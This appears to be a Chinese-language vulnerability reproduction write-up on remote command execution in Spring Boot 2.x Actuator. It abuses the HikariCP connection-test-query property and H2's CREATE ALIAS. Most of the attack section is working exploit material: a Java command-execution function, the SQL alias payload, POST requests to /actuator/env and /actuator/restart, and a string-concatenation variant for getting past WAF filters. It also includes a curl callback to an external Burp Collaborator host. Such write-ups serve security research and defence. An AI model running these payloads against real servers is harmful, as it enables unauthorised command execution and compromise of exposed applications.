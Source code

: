 ```yaml
---
title: "Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞"
id: zhfly3133
---
```


# Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞

## 一、漏洞简介

Spring Boot 2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

漏洞环境

> https://github.com/ianxtianxt/springboot_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring Boot集成，仅仅需要如下的一个dependency。

```
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <scope>runtime</scope>
</dependency> 
```

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:

```
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path'); 
```

仿照这个，创建命令执行的java函数可以如下:

```
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
    if (s.hasNext()) {
        return s.next();
    } throw new IllegalArgumentException(); 
} 
```

那么RCE所需的SQL语句即:

```
CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator'); 
```

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

```
POST /actuator/env HTTP/1.1

content-type: application/json `{“name”:“spring.datasource.hikari.connection-test-query”,“value”:“CREATE ALIAS EXEC AS ‘String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}’; CALL EXEC(’/Applications/Calculator.app/Contents/MacOS/Calculator’);”}` 
```

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

```
POST /actuator/restart HTTP/1.1

content-type: application/json `{}` 
```

命令执行的结果:

![image](../img/1c996ac7dd7e21736b1f8fbfdb2f54ce.png)

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

```
CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
CALL EXEC('curl  http://x.burpcollaborator.net'); 
```

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind RCE。

## 参考链接

> https://xz.aliyun.com/t/7480#toc-3